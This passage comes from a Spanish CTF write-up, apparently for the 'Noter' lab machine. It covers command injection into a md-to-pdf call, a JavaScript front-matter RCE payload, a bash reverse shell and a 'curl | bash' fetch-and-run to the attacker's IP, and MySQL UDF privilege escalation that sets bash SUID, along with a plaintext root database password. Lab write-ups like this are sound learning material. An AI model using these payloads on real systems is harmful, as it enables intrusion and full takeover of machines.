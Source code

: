 # Parte 5: obteniendo acceso

El codigo dice que: ```command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"```
Es decir dentro de $'' mete el contenido de la nota: ```md_to_pdf $'Mariscos Recio'``` 

El comando con inyeccion seria tal que: ```node md-to-pdf.js $';whoami'```
Teniendo que escapar del contexto de los ' -> ```node md-to-pdf.js $'';whoami; echo''```
Lo mismo con ping -> ```'; ping -c 1 10.10.14.15 ;echo' ``` Recibiendo:
```console
└─$ sudo tcpdump -i tun0 icmp -n
10:37:37.601822 IP 10.10.11.160 > 10.10.14.15: ICMP echo request, id 2, seq 1, length 64
10:37:37.601854 IP 10.10.14.15 > 10.10.11.160: ICMP echo reply, id 2, seq 1, length 64
```
Tambien buscando la vuln por google te sale como poner el payload:
```console
└─$ cat note.md
---js\n((require("child_process")).execSync("ping -c 1 10.10.14.15"))\n---RCE
```
Obtenemos el mismo resultado. Intento varias maneras de hacer una reverse shell, pero todas fallan, asi qie la hago indirecta con curl.
Shell:
- index.html
```bash
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
- note.md:
```---js\n((require("child_process")).execSync("curl http://10.10.14.15:8000 | bash"))\n---RCE```

Con netcat en escucha por el puerto 443 tenemos la shell.
He importado mi [script de enumeracion](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh):
- Uusarios -> svc (nosotros) y root
- /tmp/puppeteer_dev_chrome_profile-mPQ3N6??
- Tiene abierto el mysql (3306) y por el puerto 39617 el node (para correr el md-to-js)
- Mysql corre por root -> critico

------------------------------

# Parte 6: Escalando a root

En la web [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library) hablan de esta situacion (root en mysql):

Se puede entrar ya que antes conseguumos las creds root:Nildogg36

Consiste en copiar este [código](https://www.exploit-db.com/exploits/1518), y compilarlo en el sistema vicitma.
```console
svc@noter:/tmp$ curl -O http://10.10.14.15:8000/raptor_udf2.c
svc@noter:/tmp$ gcc -g -c raptor_udf2.c
svc@noter:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:/tmp$ mysql -u root -p
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> show variables like '%plugin%';
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
```
